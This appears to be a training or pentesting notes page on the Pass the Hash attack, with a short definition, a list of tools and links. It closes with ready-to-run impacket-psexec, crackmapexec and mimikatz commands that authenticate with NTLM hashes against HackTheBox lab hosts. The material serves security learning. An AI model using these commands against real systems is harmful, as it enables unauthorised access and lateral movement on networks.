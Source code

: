# Pass the Hash

> A Pass the Hash (PtH) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. The attacker doesn't need to decrypt the hash to obtain a plaintext password. PtH attacks exploit the authentication protocol, as the password hash remains static for every session until the password is changed.
>
> Source: [HackTheBox Academy](https://academy.hackthebox.com/module/147/section/1638)

Several tools can be used for this attack:

- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [Impacket](https://github.com/fortra/impacket)
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
- [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)
- [evil-winrm](https://github.com/Hackplayers/evil-winrm)

## External Resources

- [Pass the Hash by Hackndo](https://en.hackndo.com/pass-the-hash/)
- [Pass the Hash by HackTricks](https://book.hacktricks.xyz/windows-hardening/ntlm#pass-the-hash)

## Examples

:::tip Pass the Hash section

You can refer to the [Pass the Hash section on Commands Cheatsheet](/commands-cheatsheet/windows/pass-the-hash) for detailed usage of these tools.

:::

```bash title="Impacket PsExec Example"
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

```bash title="CrackMapExec Example"
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

```batch title="Mimikatz Example"
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
